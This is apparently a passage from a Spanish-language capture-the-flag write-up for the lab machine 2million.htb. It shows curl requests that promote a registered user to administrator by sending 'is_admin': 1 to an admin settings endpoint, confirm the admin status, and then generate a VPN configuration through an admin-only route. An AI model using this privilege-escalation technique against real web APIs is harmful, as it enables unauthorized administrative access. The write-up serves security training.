 Como nos dice que solo puede ser 0 o 1, deducimos que 1 seria el equivalente a `true` y 0 a `false`.

```
curl -X PUT -s http://2million.htb/api/v1/admin/settings/update -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"email": "delo@test.com", "is_admin": 1}' | jq

{
  "id": 13,
  "username": "delo",
  "is_admin": 1
}
```

No nos da ninguna respuesta concluyente por lo que vamos a comprobar si ahora somos admin haciendo, de nuevo, una solicitud a `/api/v1/admin/auth`.

```
curl -s http://2million.htb/api/v1/admin/auth -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "message": true
}
```

La api nos responde que somos administradores. Esto podría permitirnos acceder a otras rutas de la api a las que antes teníamos prohibido el acceso. Por ejemplo la ruta `/api/v1/admin/vpn/generate`.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" | jq

{
  "status": "danger",
  "message": "Invalid content type."
}
```

Volvemos a recibir el error de tipo de contenido invalido, por lo que una vez mas le pasamos los datos en formato json.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{}' | jq

{
  "status": "danger",
  "message": "Missing parameter: username"
}
```

Le pasamos un nombre de usuario cualquiera, por ejemplo el que hemos usado para registrarnos.

```
curl -s -X POST http://2million.htb/api/v1/admin/vpn/generate -b "PHPSESSID=e9idti2lmj8qgk62jban9rvro2" -H "Content-Type: application/json" -d '{"username": "delo"}'

client
dev tun
proto udp
remote edge-eu-free-1.2million.htb 1337
resolv-retry infinite
nobind
persist-key
persist-tun
remote-cert-tls server
comp-lzo
verb 3
data-ciphers-fallback AES-128-CBC
```